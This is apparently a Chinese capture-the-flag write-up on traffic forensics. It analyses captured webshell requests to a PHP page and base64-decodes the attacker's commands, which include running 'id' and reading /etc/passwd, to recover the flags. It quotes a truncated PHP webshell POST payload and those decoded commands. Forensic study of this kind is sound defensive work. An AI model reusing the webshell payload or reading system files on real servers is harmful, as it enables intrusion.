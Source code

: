 ```http
POST /1.php HTTP/1.1
Host: 192.168.200.54
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; zh-cn) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27
Content-Type: application/x-www-form-urlencoded
Content-Length: 4861
Connection: close

1=@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd
```

> **flag{1}**

## 二,黑客执行的第一个命令是什么

分析流量包,得到有效荷载

```txt
ma569eedd00c3b=38L2Jpbi9zaA==&ucc3f8650c92ac=AkY2QgIi92YXIvd3d3L2h0bWwiO2lkO2VjaG8gZTEyNGJjO3B3ZDtlY2hvIDQzNTIz
```

删去头两个字符`base64`解密后得到执行的命令为`/bin/sh cd "/var/www/html";id;echo e124bc;pwd;echo 43523`

> **flag{id}**

## 三,黑客读取了哪个文件的内容，提交文件绝对路径

分析步骤同上,分析其余的数据包

```shell
cd "/var/www/html";cat /etc/passwd;echo e124bc;pwd;echo 43523%
```

> echo -n 'Y2QgIi92YXIvd3d3L2h0bWwiO2NhdCAvZXRjL3Bhc3N3ZDtlY2hvIGUxMjRiYztwd2Q7ZWNobyA0MzUyMw=='|base64 -d

> **flag{/etc/passwd}**

## 四,黑客上传了什么文件到服务器，提交文件名

分析步骤同上,分析其余的数据包

```shell
/var/www/html/flag.txt
```

> $ echo -n 'L3Zhci93d3cvaHRtbC9mbGFnLnR4dA=='|base64 -d

> **flag{flag.txt}**

## 五,黑客上传的文件内容是什么

